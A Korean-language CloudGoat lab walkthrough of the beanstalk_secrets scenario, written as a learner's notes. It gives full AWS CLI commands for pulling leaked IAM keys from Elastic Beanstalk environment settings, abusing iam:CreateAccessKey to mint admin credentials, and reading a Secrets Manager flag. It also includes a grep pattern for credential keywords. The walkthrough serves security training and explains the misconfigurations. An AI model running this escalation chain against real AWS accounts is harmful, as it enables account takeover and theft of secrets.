

# 3rd Scenario: Beanstalk_Secrets

[← CloudGoat 시나리오 목록](../README.md)

난이도 : Moderate

[Beanstalk은 무엇인가](notes/elastic-beanstalk.md)

Command : cloudgoat create beanstalk_secrets —profile cloudgoat-lab 



제공하는 것을 보니 느낌상 서로 다른 권한의 유저가 있고, 목표가 관리자 계정으로 AWS Secret Manager 서비스에 접근하는 것이다. 

AWS VPC(Virtual Private Cloud)는 AWS 클라우드 내에 구축하는 사용자 전용의 논리적으로 격리된 가상 네트워크 공간이다. 


제공해주는 루트는 다음과 같다. 

근데 시작부터 BeanStalk이라는 서비스에 접근하기 위해 BruteForce를 진행한다??
뭐 아무튼 나는 지금 이 beanstalk조차 무엇인지 모르기 때문에 관련한 정보를 찾아봐야 한다. 

[Beanstalk은 무엇인가](notes/elastic-beanstalk.md) 

위 그림의 내용도 저 세부 페이지 마지막 부분에 전부 존재한다. 


여기서는 조금 더 세부적으로 알려준다. 하지만 내 Codex가 더 잘 알려줄 것 같다. 

# 진행

3번 `beanstalk_secrets`의 첫 번째 목표는 다음과 같습니다.

```
시나리오 생성
→ 시작 사용자 프로필 등록
→ 현재 신원 확인
→ Elastic Beanstalk Application 발견
→ 그 안의 Environment 발견
→ Environment 설정 조회
→ 잘못 저장된 두 번째 AWS 자격 증명 발견
```

아직 관리자 권한 획득까지 가지 않고, 먼저 Elastic Beanstalk의 구조를 직접 열거하는 데 집중하겠습니다.

## 0. 이번 시나리오의 전체 구조

CloudGoat 코드상 이번 문제에는 다음 신원들이 존재합니다.

```
① low_priv_user
   └─ Elastic Beanstalk의 설정을 읽을 수 있음

② secondary_user
   └─ IAM 리소스를 열거하고 다른 사용자의 Access Key를 생성할 수 있음

③ admin_user
   └─ 모든 AWS 작업을 허용하는 관리자 정책 보유
```

전체 공격 흐름:

```
low_priv_user
    │
    │ Beanstalk 환경 설정 조회
    ▼
환경 변수에 저장된 secondary_user 키
    │
    │ IAM 열거 및 CreateAccessKey 권한 사용
    ▼
admin_user의 새 Access Key
    │
    │ 관리자 권한
    ▼
Secrets Manager의 최종 플래그
```

이번에는 이전 문제처럼 IMDS와 SSH를 거치는 구조가 아닙니다. Elastic Beanstalk의 관리 API만으로 환경 설정을 조회하면서 시작합니다.

## 1. CloudGoat 기본 디렉터리로 이동

VS Code의 WSL 터미널에서:

```
cd ~/.local/lib/python3.10/site-packages/cloudgoat
```

현재 위치 확인:

```
pwd
```

다음과 비슷해야 합니다.

```
~/.local/lib/python3.10/site-packages/cloudgoat
```

기존 배포가 없는지 확인:

```
cloudgoat list deployed
```

아무것도 없다면 다음으로 넘어갑니다.

## 2. 3번 시나리오 생성

```
cloudgoat create beanstalk_secrets \
  --profile cloudgoat-lab
```

여기서 `cloudgoat-lab`은 실습 인프라를 생성하고 삭제하는 관리자 프로필입니다.

명령의 의미:

```
cloudgoat
└─ CloudGoat 프로그램 실행

create
└─ 새로운 시나리오 인프라 생성

beanstalk_secrets
└─ 생성할 시나리오 이름

--profile cloudgoat-lab
└─ AWS 리소스를 만들 관리자 자격 증명
```

Elastic Beanstalk는 내부적으로 EC2 환경을 구성하므로 생성에 시간이 걸릴 수 있습니다. Terraform이 완료될 때까지 터미널을 종료하지 마세요.

정상적으로 완료되면 다음과 비슷한 문구가 나옵니다.

```
terraform apply completed with no error code
```

그리고 시나리오 디렉터리 및 `start.txt` 경로가 출력됩니다.

이번 시나리오는 기본적으로 `us-east-1`에 생성되도록 작성되어 있습니다. 따라서 이후 명령에서도 `--region us-east-1`을 사용합니다.

## 3. 생성 결과 확인

```
cloudgoat list deployed
```

`beanstalk_secrets`가 보여야 합니다.

시나리오 디렉터리를 찾습니다.

```
find . \
  -maxdepth 2 \
  -type d \
  -name 'beanstalk_secrets_*' \
  -print
```

그 디렉터리로 이동합니다.

```
cd "출력된_beanstalk_secrets_디렉터리"
```

예를 들면:

```
cd beanstalk_secrets_cgid어떤값
```

파일 확인:

```
ls
```

다음과 비슷한 파일이 있어야 합니다.

```
README.md
cheat_sheet.md
manifest.yml
start.txt
terraform/
```

## 4. 시작 자격 증명 확인


elastic beanstalk을 만들면서 무우우려 3분을 기다려서 시작이 되었다.

언제나처럼 start.txt를 확인하니 low_priv user의 인증정보가 제공되는 것을 볼 수 있다. 

## 5. 시작 사용자 프로필 등록


이제 확인한 사용자 키로 등록을 진행한다. 이제는 cloudgoat의 기본값에 맞춰 서버 region은 us-east-1으로 설정한다. 

그리고 처음에는 이 명령어 작성하는 것조차 힘들고 어색했는데, 슬슬 적응이 되는 것 같다. 


가장 아래 추가한 계정이 있고, 중간에는 귀찮아서 안지운 이전 계정들이 있다. 

## 6. 현재 신원 확인


계정을 새로 등록하고, user-name 등을 사용하는 서브 명령어들은 전부 실제 유저명을 넣어야 하기 때문에, sts get-caller-identity를 이용해 실제 유저명을 확보하고 셸 변수로 설정해준다. 

아래는 내 codex가 알려주는 sts get-caller-identity를 했을 때 나올 수 있는 오류들의 종류다. 

오류별 의미:

```
InvalidClientTokenId
→ Access Key나 Secret Key가 잘못 입력됨

AccessDenied
→ 인증은 성공했지만 해당 작업 권한이 없음

Could not connect
→ 네트워크 또는 엔드포인트 문제
```

## 7. Elastic Beanstalk Application 조회

이제 현재 사용자가 볼 수 있는 Beanstalk Application을 조회합니다.

```
aws elasticbeanstalk describe-applications \
  --profile beanstalk_start \
  --region us-east-1
```


예시 명령어에는 region이 붙어있지만, 지금은 기본으로 us-east-1으로 세팅해두어서 안넣어도 상관없다.

그리고 2번 문제에서 ec2를 사용할 때는 aws ec2 describe-instances 명령어를 사용했는데, 이번 beanstalk에서는 aws elasticbeanstalk describe-applications 인 것을 볼 수 있다. 비슷하지만 다루는 단위에 따라 다르게 설정한게 보여서 나름 재미있는 것 같다. 

아마 다음은 저 ApplicationName을 이용해서 2번 문제의 User Data를 본 것처럼 상세보기를 하지 않을까 싶다. 

### Application이 의미하는 것

Application은 웹 서버 자체가 아닙니다.

```
Application
= 코드 버전과 실행 환경을 묶는 논리적인 프로젝트
```

예:

```
Application: shopping-mall

그 안에:
- 코드 버전 v1
- 코드 버전 v2
- 개발 환경
- 운영 환경
```

이번 출력에서 다음 명령으로 연결되는 중요한 정보는:

```
ApplicationName
```

입니다.

다른 정보들은 우선순위가 낮습니다.

```
DateCreated
DateUpdated
ResourceLifecycleConfig
```

이 값들은 관리 관점에서는 의미가 있지만 이번 공격 경로의 핵심은 아닙니다.

Application 이름을 변수에 저장합니다.

```
EB_APP="출력에서_본_ApplicationName"
```

확인:

```
echo "$EB_APP"
```

## 8. Application 안의 Environment 조회

Application은 논리적 프로젝트이고, Environment가 실제 실행 환경입니다.


음 실제로 상세보기를 진행했다. 하지만 쭉 읽어보니 여기에 뭔가 민감정보가 있어보이지는 않았다. 

그래서 다음 할 목록을 보면 EnvirName이 다음 config 조회에 사용될 이름이라고 하니, 느낌이 논리 프로젝트인 Application에서 실제 위치인 environment의 이름을 알려주고, 이 envir의 이름을 이용해 또 상세보기를 하면은 뭐가 나올 것 같다. 

### 중요한 필드

#### `EnvironmentName`

```
다음 configuration 조회에 사용할 이름
```

가장 중요한 값입니다.

#### `EnvironmentId`

Elastic Beanstalk 내부 식별자입니다. 이름과 별도로 환경을 구분합니다.

#### `Status`

환경 배포 상태입니다.

```
Launching
Updating
Ready
Terminating
Terminated
```

정상적으로 준비됐다면:

```
Ready
```

여야 합니다.

#### `Health`

환경의 전체 상태입니다.

```
Green  → 정상
Yellow → 일부 문제
Red    → 비정상
Grey   → 상태 정보 부족
```

#### `SolutionStackName`

어떤 운영체제와 Runtime을 사용하는지 알려줍니다.

예:

```
Amazon Linux 2023 + Python 3.11
```

#### `Tier`

웹 요청을 처리하는 환경인지, 백그라운드 Worker인지 나타냅니다.

이번에는 보통:

```
WebServer
```

입니다.

Environment 이름을 변수에 저장합니다.

```
EB_ENV="출력에서_본_EnvironmentName"
```

확인:

```
echo "$EB_ENV"
```

## 9. 지금까지의 정보 연결

현재 흐름은 다음과 같습니다.

```
describe-applications
        │
        └─ ApplicationName 발견
                 │
                 ▼
describe-environments
        │
        └─ EnvironmentName 발견
                 │
                 ▼
describe-configuration-settings
```

`ApplicationName`과 `EnvironmentName`은 최종 목표가 아니라 다음 API에 전달할 식별자입니다.

EC2 문제에서:

```
InstanceId
→ describe-instance-attribute의 입력값
```

이었던 것과 같습니다.

이번에는:

```
ApplicationName + EnvironmentName
→ describe-configuration-settings의 입력값
```

입니다.

## 10. Environment 설정 전체 조회

다음 명령이 이번 첫 단계의 핵심입니다.

```
aws elasticbeanstalk describe-configuration-settings \
  --application-name "$EB_APP" \
  --environment-name "$EB_ENV" \
  --profile beanstalk_start \
  --region us-east-1
```

출력이 상당히 길 수 있습니다.


실제로 어어어어엄청 길었다. 우측의 스크롤바를 보면 서 회색이 화면 하단까지 이동할 수 있다. 근데 위에 있는 것을 보면… 쉽지 않다. 

아 덤으로 이런 page 방식의 출력에서 항상 ctrl+c로 꺼서 입력 오류가 생겨 터미널을 교체해주었었는데, 알고보니 그냥 q 로 나가면 되는 것이었다. 실제로 q로 나가니 정상작동된다. 


일단 그냥 깡으로 읽었는데, 내리다가 Secondary_Secret_Key와 Secondary_Access_Key 둘 다 있는 것을 볼 수 있었다. 음… 맞나? 근데 이게 이렇게 작성되는 맥락을 잘 모르겠긴하다. 

이 아래에는 위 문서에 관한 내용이 좀 나올텐데, 저것이 맞는지와 맥락 등에 대해서도 알아봐야할 것 같다. 

파일로 저장하면서 화면에도 표시하려면:

```
aws elasticbeanstalk describe-configuration-settings \
  --application-name "$EB_APP" \
  --environment-name "$EB_ENV" \
  --profile beanstalk_start \
  --region us-east-1 \
  | tee beanstalk-config.json
```

이제 파일을 편하게 읽을 수 있습니다.

```
less beanstalk-config.json
```

`less` 안에서 검색하려면 `/`를 누르고 검색어를 입력합니다.

```
/application:environment
```

다음 결과로 이동하려면:

```
n
```

종료:

```
q
```

## 11. Configuration Settings 구조 이해


핵심은 `OptionSettings` 배열입니다.

각 설정은 세 요소로 구성됩니다.

```
Namespace
OptionName
Value
```

### Namespace

설정의 분류입니다.

예:

```
aws:ec2:vpc
aws:autoscaling:launchconfiguration
aws:elasticbeanstalk:application:environment
```

#### `aws:ec2:vpc`

VPC와 Subnet 같은 네트워크 설정입니다.

```
VPCId
Subnets
```

#### `aws:autoscaling:launchconfiguration`

EC2 인스턴스 설정입니다.

```
IamInstanceProfile
InstanceType
SecurityGroups
```

#### `aws:elasticbeanstalk:application:environment`

애플리케이션에 전달되는 환경 변수입니다.

이번 시나리오에서 가장 중요한 Namespace입니다.

### OptionName

환경 변수 또는 설정의 이름입니다.

예:

```
LOG_LEVEL
API_ENDPOINT
DB_HOST
어떤_ACCESS_KEY
어떤_SECRET_KEY
```

### Value

실제 설정값입니다.

```
OptionName = 환경 변수 이름
Value      = 환경 변수 값
```


위에서 발견한 Key들도 보면은 OptionName으로 지정되어있는 것을 볼 수 있다. 

## 12. 무엇을 찾아야 하는가?

이번 시나리오 설명은 Elastic Beanstalk 환경 변수에 두 번째 사용자의 AWS 자격 증명이 저장됐다고 알려줍니다.

따라서 다음 Namespace를 찾습니다.

```
aws:elasticbeanstalk:application:environment
```

그 안에서 이름에 다음 단어가 들어간 설정을 주의 깊게 확인합니다.

```
ACCESS
SECRET
KEY
CREDENTIAL
PASSWORD
TOKEN
```

구조 예:

```
{
  "Namespace": "aws:elasticbeanstalk:application:environment",
  "OptionName": "어떤_ACCESS_KEY",
  "Value": "..."
}
```

```
{
  "Namespace": "aws:elasticbeanstalk:application:environment",
  "OptionName": "어떤_SECRET_KEY",
  "Value": "..."
}
```

이 값은 Elastic Beanstalk에 로그인하는 ID/PW가 아닙니다. 별도의 IAM 사용자가 AWS CLI 인증에 사용하는 Access Key와 Secret Key입니다.

```
Access Key
+ Secret Key
→ 새로운 AWS CLI 프로필
→ 새로운 IAM 신원
```

발견한 값은 채팅에 올리지 마세요.

## 13. 쿼리 없이 검색하는 방법

앞서 `--query`가 어렵다고 했으므로 처음에는 파일과 `grep`을 사용해도 됩니다.

Namespace 위치 검색:

```
grep -n \
  'aws:elasticbeanstalk:application:environment' \
  beanstalk-config.json
```

키 관련 이름 검색:

```
grep -niE \
  'access|secret|key|credential|password|token' \
  beanstalk-config.json
```

다만 `grep`은 JSON 구조를 이해하지 않고 문자열만 찾습니다. 따라서 검색 결과 주변의 `Namespace`, `OptionName`, `Value`가 같은 객체에 속하는지 원본 JSON에서 다시 확인해야 합니다.


위에서 grep을 제공해주어서 진행을 해보았는데, 역시 동일하게 있는 것을 볼 수 있었다. 


grep으로 잡힌 것을 직접 확인했는데, L227 말고도 L321, L326에도 Key가 적힌 Option이 있는 것을 알 수 있었다. 그래도 값은 동일했다. 

그리고 S3 Key도 같이 확인해보았는데… Value가 아무것도 없었다. 아마 실제 보안적으로는 이렇게 option이 있다해도 value가 없느 방향이지 않을까 싶기도 하다. 

## 14. 선택적으로 `jq`로 환경 변수만 보기

전체 JSON 구조가 익숙해진 뒤 다음 명령을 사용할 수 있습니다.

```
jq '
  .ConfigurationSettings[]
  .OptionSettings[]
  | select(
      .Namespace ==
      "aws:elasticbeanstalk:application:environment"
    )
' beanstalk-config.json
```

읽는 방법:

```
.ConfigurationSettings[]
→ 모든 ConfigurationSettings 항목

.OptionSettings[]
→ 그 안의 모든 OptionSettings 항목

select(...)
→ 조건에 맞는 설정만 선택

.Namespace == "..."
→ Application Environment 변수만 선택
```

이것은 AWS `--query`가 아니라 로컬 JSON 처리 도구인 `jq`입니다.


오 실제로 깔끔하게 나온 것을 볼 수 있었다. 

## 15. 여기까지의 체크포인트

첫 단계가 정상적으로 진행되면 다음을 확보하게 됩니다.

```
[ ] beanstalk_start 프로필
[ ] low_priv_user의 ARN
[ ] Elastic Beanstalk ApplicationName
[ ] Elastic Beanstalk EnvironmentName
[ ] Environment Status = Ready
[ ] ConfigurationSettings 전체 JSON
[ ] application:environment Namespace
[ ] 두 번째 사용자의 Access Key
[ ] 두 번째 사용자의 Secret Key
```

여기까지가 3번 문제의 첫 번째 구간입니다.

다음 구간은:

```
발견한 키로 secondary_user 프로필 생성
→ get-caller-identity로 신원 확인
→ IAM 사용자와 정책 조사
→ iam:CreateAccessKey 권한의 위험성 이해
```

입니다.

중요한 습관은 각 단계에서 다음을 반복하는 것입니다.

```
1. 현재 신원은 누구인가?
2. 어떤 서비스의 어떤 API가 성공하는가?
3. 출력에서 다음 API의 입력값은 무엇인가?
4. 새로운 자격 증명이 나오면 이전 신원과 어떻게 다른가?
```

우선 `describe-configuration-settings`까지 실행하고, 실제 자격 증명 값은 가린 상태로 `Namespace`, `OptionName`, 전체 구조만 공유하면 다음 권한 전환 과정을 이어서 설명할 수 있습니다.

현재 확인 결과 `secondary_user` 프로필은 아직 등록되지 않았고, 3번 시나리오는 정상 배포 중입니다.

```
Scenario ID: cgid3fa27y2lna
현재 시작 프로필: low_priv
Secondary 키: 확보 완료
```

## 1. Secondary 프로필 등록

확보한 키를 등록합니다.

```
aws configure --profile secondary_user
```

```
AWS Access Key ID: 확보한 Secondary Access Key
AWS Secret Access Key: 확보한 Secondary Secret Key
Default region name: us-east-1
Default output format: json
```

신원 확인:

```
aws sts get-caller-identity \
  --profile secondary_user
```

ARN이 다음 형태여야 합니다.

```
arn:aws:iam::계정ID:user/cgid3fa27y2lna_secondary_user
```

여기까지는 이미 익숙한 과정이므로 이후 설명에서 반복하지 않겠습니다.

## 2. 반복할 값 변수로 저장

앞으로 모든 명령에 프로필 이름과 시나리오 ID를 반복하지 않도록 변수로 저장합니다.

```
PROFILE="secondary_user"
CGID="cgid3fa27y2lna"
```

현재 Secondary 사용자 이름은 ARN에서 자동으로 가져옵니다.

```
SECONDARY_USER="$(
  aws sts get-caller-identity \
    --profile "$PROFILE" \
    --query 'Arn' \
    --output text |
  awk -F/ '{print $NF}'
)"
```

확인:

```
echo "$SECONDARY_USER"
```

결과:

```
cgid3fa27y2lna_secondary_user
```

이후 명령은 긴 사용자 이름을 직접 입력하지 않고 $SECONDARY_USER를 사용합니다.


일단 평소대로 진행은 하였다. 근데 저렇게 자동화가 가능하다는 것을 알았다. 

## 3. Secondary 사용자 정책 확인

먼저 Secondary에게 연결된 관리형 정책을 조회합니다.

```
aws iam list-attached-user-policies \
  --user-name "$SECONDARY_USER" \
  --profile "$PROFILE"
```


일단 Secondary User의 관리형 정책을 확인할 수 있다. 

### 왜 이 명령부터 실행하는가?

새로운 AWS 신원을 확보했을 때 가장 중요한 질문은:

```
이 사용자는 무엇을 할 수 있는가?
```

입니다.

다만 AWS에는 일반적으로 모든 유효 권한을 완벽하게 한 번에 보여주는 단순한 명령이 없습니다. 따라서 사용자에게 연결된 정책을 찾고, 실제 정책 JSON을 읽습니다.

관리형 정책 ARN을 자동 저장합니다.

```
SECONDARY_POLICY_ARN="$(
  aws iam list-attached-user-policies \
    --user-name "$SECONDARY_USER" \
    --profile "$PROFILE" \
    --query 'AttachedPolicies[0].PolicyArn' \
    --output text
)"
```

확인:

```
echo "$SECONDARY_POLICY_ARN"
```

여기서 쿼리는:

```
AttachedPolicies[0]
→ 첫 번째 연결 정책

.PolicyArn
→ 그 정책의 ARN만 선택
```

이라는 의미입니다.


일단 실제로 진행을 해보았다. 
그리고 관리형 정책이 기억이 안나서 1단계를 보았는데 완련해서 제대로 작성이 안되었었다. 그래서 일단 제공된 명령어로 진행하였더니 PolicyArn으로 나온 전체를 복사해야하는 것을 상기할 수 있었다. 

## 4. 관리형 정책의 실제 문서 조회

관리형 정책의 실제 권한 JSON은 정책 버전 안에 있습니다. 먼저 기본 버전을 가져옵니다.

```
SECONDARY_POLICY_VERSION="$(
  aws iam get-policy \
    --policy-arn "$SECONDARY_POLICY_ARN" \
    --profile "$PROFILE" \
    --query 'Policy.DefaultVersionId' \
    --output text
)"
```


기억을 되짚는 용도로 전체를 확인하고 있다. 관리형 정책을 확인하고, 해당 정책을 get-policy로 상세 정보를 확인하고, 버전이 포함된 정책 상세 정보도 확인할 것이다. 

실제 문서 조회:

```
aws iam get-policy-version \
  --policy-arn "$SECONDARY_POLICY_ARN" \
  --version-id "$SECONDARY_POLICY_VERSION" \
  --profile "$PROFILE"
```


정책에서 다음 세 필드를 읽어야 합니다.

```
Effect
Action
Resource
```

이번 정책의 핵심은 다음과 같은 문장입니다.

```
{
  "Effect": "Allow",
  "Action": "iam:CreateAccessKey",
  "Resource": "*"
}
```

## 5. 이 정책이 왜 위험한가?

`iam:CreateAccessKey`는 기존 IAM 사용자에게 새로운 CLI 자격 증명을 발급하는 권한입니다.

```
IAM User
  └─ Access Key ID
  └─ Secret Access Key
```

이 권한이 자기 자신에게만 제한되어 있다면 위험 범위가 비교적 작습니다.

하지만:

```
"Resource": "*"
```

이면 계정 내 모든 IAM 사용자에게 Access Key를 생성할 수 있습니다.

```
secondary_user
→ 일반 사용자에게 키 생성
→ 일반 사용자 권한 획득

secondary_user
→ 관리자 사용자에게 키 생성
→ 관리자 권한 획득
```

Secondary에게 관리자 정책이 직접 연결된 것은 아닙니다. 그러나 관리자에게 새 인증수단을 발급할 수 있기 때문에 결과적으로 관리자가 될 수 있습니다.

이를 보안에서는 권한 상승 경로라고 합니다.

```
현재 권한:
iam:CreateAccessKey

대상:
관리자 IAM 사용자

결과:
관리자 사용자의 자격 증명 획득
```

## 6. 계정의 IAM 사용자 열거

```
aws iam list-users \
  --profile "$PROFILE"
```

보기 편하게 이름과 ARN만 표시:

```
aws iam list-users \
  --profile "$PROFILE" \
  --query 'Users[].{Name:UserName,Arn:Arn}' \
  --output table
```

이번 시나리오 ID가 포함된 사용자들을 볼 수 있습니다.

```
cgid3fa27y2lna_low_priv_user
cgid3fa27y2lna_secondary_user
cgid3fa27y2lna_admin_user
```


유저를 조회하는 것은 생각을 못하긴 했다. 지금 느낀 것은 정책 확인을 통해 저권한일 때도 사용권한을 확인을 했어야 하지 않았나 생각이 들었다. 


지금이라도 했는데, 일단 안되는 것을 확인할 수 있었다. 그래도 앞으로 과정이 선행되어야 할 것 같다. 

자, 이제 다시 진행을 해보자. 

관리자 후보를 변수에 자동 저장합니다.

```
ADMIN_USER="$(
  aws iam list-users \
    --profile "$PROFILE" \
    --query 'Users[?contains(UserName, `_admin_user`)].UserName | [0]' \
    --output text
)"
```

확인:

```
echo "$ADMIN_USER"
```

결과:

```
cgid3fa27y2lna_admin_user
```


secondary_user의 권한을 확인하고, 해당 권한으로 할 수 있는 일을 하면서 admin user의 실제 유저 이름을 확인한 것을 인식하였다. 

### 쿼리 해석

```
Users[]
→ 모든 사용자

[?contains(UserName, `_admin_user`)]
→ 이름에 _admin_user가 포함된 사용자만 선택

.UserName
→ 사용자 이름만 선택

| [0]
→ 결과 중 첫 번째 값 선택
```

## 7. 이름이 아니라 정책으로 관리자 여부 검증

사용자 이름에 `admin`이 들어 있다고 실제 관리자라고 단정하면 안 됩니다. 연결된 정책을 확인합니다.

```
aws iam list-attached-user-policies \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE"
```


와 솔직히 저 user-name과 profile의 구분을 잘 이해하지 못하고 그냥 사용하고 있었는데, secondary user의 권한으로 admin user에 적용된 관리정책을 조회하는 것을 보고 체감하였다. 

관리자 후보의 정책 ARN 저장:

```
ADMIN_POLICY_ARN="$(
  aws iam list-attached-user-policies \
    --user-name "$ADMIN_USER" \
    --profile "$PROFILE" \
    --query 'AttachedPolicies[0].PolicyArn' \
    --output text
)"
```

기본 버전 저장:

```
ADMIN_POLICY_VERSION="$(
  aws iam get-policy \
    --policy-arn "$ADMIN_POLICY_ARN" \
    --profile "$PROFILE" \
    --query 'Policy.DefaultVersionId' \
    --output text
)"
```

실제 관리자 정책 조회:

```
aws iam get-policy-version \
  --policy-arn "$ADMIN_POLICY_ARN" \
  --version-id "$ADMIN_POLICY_VERSION" \
  --profile "$PROFILE"
```


admin_user의 권한에 대해 확인을 진행하였다. 

다음 구조를 확인하세요.

```
{
  "Effect": "Allow",
  "Action": "*",
  "Resource": "*"
}
```

의미:

```
Action: *
→ 모든 AWS API 동작

Resource: *
→ 모든 AWS 리소스
```

이제 두 사실을 정책으로 확인했습니다.

```
Secondary:
모든 IAM 사용자에게 Access Key 생성 가능

admin_user:
모든 AWS 작업 수행 가능
```

이 둘을 연결하면:

```
Secondary
→ admin_user의 Access Key 생성
→ admin_user로 인증
→ 관리자 권한 획득
```

이 됩니다.

## 8. 관리자 Access Key 생성

이 명령은 AWS 상태를 실제로 변경합니다. 관리자 사용자에게 새 장기 Access Key를 추가합니다.

```
ADMIN_CREDS="$(
  aws iam create-access-key \
    --user-name "$ADMIN_USER" \
    --profile "$PROFILE"
)"
```


직접 진행해보았는데, AccessKey와 SecretAccessKey까지 발급된 것을 볼 수 있다. 

그럼 admin_user로 내가 접근할 수 있게 되었다는 소리다. 

### 여기서 실제로 일어난 일

새 사용자를 만든 것이 아닙니다.

```
기존 admin_user
  └─ 새 Access Key ID
  └─ 새 Secret Access Key
```

즉, 관리자의 새로운 로그인 수단을 생성했습니다.

이것은 비밀번호를 몰라도 관리자 계정의 새로운 API 비밀번호를 발급한 것과 유사합니다.

## 9. 관리자 프로필 자동 등록


아래 자동 등록은 모르겠고, 알아서 진행했다. 정상적으로 등록되어 aws sts가 수행된 것을 볼 수 있었고, admin user의 실제 이름을 확인, 셸 변수로 저장하였다. 

```
ADMIN_PROFILE="beanstalk_admin"
```

Access Key 등록:

```
aws configure set aws_access_key_id \
  "$(jq -r '.AccessKey.AccessKeyId' <<< "$ADMIN_CREDS")" \
  --profile "$ADMIN_PROFILE"
```

Secret Key 등록:

```
aws configure set aws_secret_access_key \
  "$(jq -r '.AccessKey.SecretAccessKey' <<< "$ADMIN_CREDS")" \
  --profile "$ADMIN_PROFILE"
```

리전과 출력 형식:

```
aws configure set region us-east-1 \
  --profile "$ADMIN_PROFILE"

aws configure set output json \
  --profile "$ADMIN_PROFILE"
```

민감정보가 들어 있는 셸 변수를 제거합니다.

```
unset ADMIN_CREDS
```

이 방식의 장점은 관리자 Secret Key를 화면이나 셸 기록에 직접 입력하지 않는다는 것입니다.

## 10. 권한 상승 검증


위에서 얘기한 것과 동일한 얘기다. 

```
aws sts get-caller-identity \
  --profile "$ADMIN_PROFILE"
```

다음 ARN이 나오면 성공입니다.

```
arn:aws:iam::계정ID:user/cgid3fa27y2lna_admin_user
```

이 시점에서 신원 변화는 다음과 같습니다.

```
low_priv_user
  │ Beanstalk 설정 조회
  ▼
secondary_user
  │ CreateAccessKey 권한
  ▼
admin_user
  │ Action: *, Resource: *
  ▼
AWS 관리자 권한
```

## 11. Secrets Manager 조사

이제 관리자 프로필로 Secret 목록을 조회합니다.

```
aws secretsmanager list-secrets \
  --profile "$ADMIN_PROFILE" \
  --region us-east-1
```

Secret 이름을 자동으로 찾으려면, 시나리오 ID가 포함된 이름을 선택합니다.


드디어 final flag까지 왔다. 

## 12. 실제 Secret 값 조회

```
aws secretsmanager get-secret-value \
  --secret-id "$SECRET_NAME" \
  --profile "$ADMIN_PROFILE" \
  --region us-east-1
```

실제 목표는:

```
SecretString
```

필드입니다.


비밀 확인에 성공했다. 

flag는 "FLAG{D0nt_st0r3_s3cr3ts_in_b3@nsta1k!}” 이다. 

## 13. 이번 문제의 핵심 보안 의미

이번 공격은 두 가지 잘못된 설정이 연결된 것입니다.

### 첫 번째: Beanstalk 환경 변수에 IAM 키 저장

```
Beanstalk 설정 조회 권한
→ 환경 변수 조회
→ secondary_user의 장기 Access Key 노출
```

환경 변수는 애플리케이션 설정 전달용이지, 일반 조회 권한자가 볼 수 있는 형태로 AWS 장기 키를 저장할 장소가 아닙니다.

### 두 번째: 과도한 `iam:CreateAccessKey`

```
Secondary 사용자가
Resource: *를 대상으로
iam:CreateAccessKey 가능
```

이 권한은 대상 사용자의 권한을 그대로 탈취할 수 있습니다.

```
관리자에게 키 생성
→ 관리자 신원 사용
→ 전체 계정 장악
```

안전한 정책이라면 최소한 특정 사용자로 대상을 제한해야 합니다.

```
{
  "Effect": "Allow",
  "Action": "iam:CreateAccessKey",
  "Resource": "특정 사용자 ARN"
}
```

하지만 실제로는 인간 사용자에게 다른 사용자의 키 생성 권한을 주는 것 자체를 매우 신중하게 다뤄야 합니다.

## 14. 완료 후 정리

플래그를 확인하면 반드시 시나리오를 삭제합니다.

```
cd ~/.local/lib/python3.10/site-packages/cloudgoat
```

```
cloudgoat destroy beanstalk_secrets \
  --profile cloudgoat-lab
```

이 삭제가 중요한 이유는 이번 시나리오에 다음 리소스가 있기 때문입니다.

- Elastic Beanstalk Environment
- 그 아래에서 실행되는 EC2
- IAM 사용자와 Access Key
- 관리자 Access Key
- VPC 관련 리소스
- Secrets Manager Secret

`destroy` 완료 후:

```
cloudgoat list deployed
```

로 남은 배포가 없는지 확인하세요.

로컬에 남은 다음 프로필도 삭제 대상입니다.

```
low_priv
secondary_user
beanstalk_admin
```

관리용 프로필은 유지합니다.

```
cloudgoat-lab
```

이번에는 프로필 등록 부분만 압축하고, Secondary 정책 분석 이후 과정은 학습 맥락을 유지한 전체 흐름입니다.